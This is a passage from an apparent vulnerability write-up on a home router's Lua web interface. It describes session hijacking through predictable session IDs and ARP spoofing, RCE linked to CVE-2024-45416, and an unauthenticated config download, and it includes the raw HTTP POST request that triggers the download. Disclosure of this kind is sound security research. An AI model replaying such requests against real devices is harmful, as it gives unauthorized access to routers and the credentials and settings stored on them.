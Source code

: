 By not introducing a random part to the session ID's the possibility of IP spoofing gives an attacker a way to hijack active sessions, in the edge case where the attacker is located within the local network of the router and a user is logged-in to the web interface, ARP spoofing can be used to trick the router into allowing unauthorized login if the IP of the active user is used.

Also the use of `lua_session` allows for RCE if arbitrary file write is present due to the weakness described in [CVE-2024-45416](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45416)

## Authentication bypass via unauthenticated access to device config

After proxying requests and testing out different stuff i noticed that authentication is not enforced for the user config download endpoint.

![Config Management](./images/config_management.png)

```
POST /getpage.lua?pid=101&nextpage=ManagDiag_UsrCfgMgr_t.lp HTTP/1.1
Host: 192.168.1.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------25853724551472601545982946443
Content-Length: 173
Origin: http://192.168.1.254
Connection: keep-alive
Referer: http://192.168.1.254/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------25853724551472601545982946443
Content-Disposition: form-data; name="config"


-----------------------------25853724551472601545982946443--
```
